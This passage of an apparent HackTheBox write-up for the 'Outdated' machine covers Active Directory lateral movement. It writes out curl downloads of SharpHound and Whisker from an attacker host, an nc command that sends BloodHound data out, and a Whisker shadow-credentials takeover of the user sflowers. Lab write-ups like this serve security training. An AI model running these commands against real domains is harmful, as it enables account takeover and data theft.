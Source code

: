 **NOTE:** For me to figure this out I downloaded and setup a python3 http redirect to log and see what happened behind the scenes, this could also have been done using Wireshark or anything similar. 

```
➜  msdt-follina python3 redirect.py 80 http://10.10.14.2:8888
10.10.11.175 - - [19/Aug/2022 12:18:18] "GET / HTTP/1.1" 301 -
10.10.11.175 - - [19/Aug/2022 12:18:20] "GET /nc64.exe HTTP/1.1" 301 -
```

With this information we can see that the script worked, but the payload delivery (of nc64.exe) didn't. 


### Step 4
Quickly look through the box as user `btables` and we see that `user.txt` is not here, maybe we need to move laterally to `sflowers` that we found earlier.

Upload ``SharpHound.exe`` to the target and start enumerating with BloodHound.
```bash
C:\Windows\Tasks>curl http://10.10.14.2:8888/SharpHound.exe -o C:\Windows\Tasks\SharpHound.exe
C:\Windows\Tasks>dir
08/19/2022  11:17 AM    <DIR>          .
08/19/2022  11:17 AM    <DIR>          ..
08/19/2022  11:17 AM           908,288 SharpHound.exe

## Start listener to receive
➜  outdated nc -lp 1234 > SharpOut.zip

## Send data
C:\Windows\Tasks>nc.exe -w3 10.10.14.2 1234 < 20220819112306_SharpOut.zip
```

In BloodHound, mark user `btables` as Owned and search for `Administrator`. Press `Shortest Path to Here from Owned` and we see a nice path:

![](/assets/images/htb-writeup-outdated/outdated02.png)


Searching for `AddKeyCredentialLink`, we find [Shadow Credentials](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) and the tool [Whisker.exe](https://github.com/eladshamir/Whisker) for exploitation.
This technique allows an attacker to take over an AD user or computer account if the attacker can modify the target object's (user or computer account) attribute `msDS-KeyCredentialLink` and append it with alternate credentials in the form of certificates.

Add the shadow credentials (modify the `msDS-KeyCredentialLink` attribute) to the vulnerable AD user `sflowers` using [Whisker.exe](https://github.com/eladshamir/Whisker). 
```bash
C:\Windows\Tasks>curl http://10.10.14.2:8888/Whisker.exe -o C:\Windows\Tasks\Whisker.exe
c:\Windows\Tasks>Whisker.exe add /target:sflowers
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password qUOOiC6IHD1YbErH
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 1b1d7ce3-46ae-4631-9ace-8e962ccdc9ba
```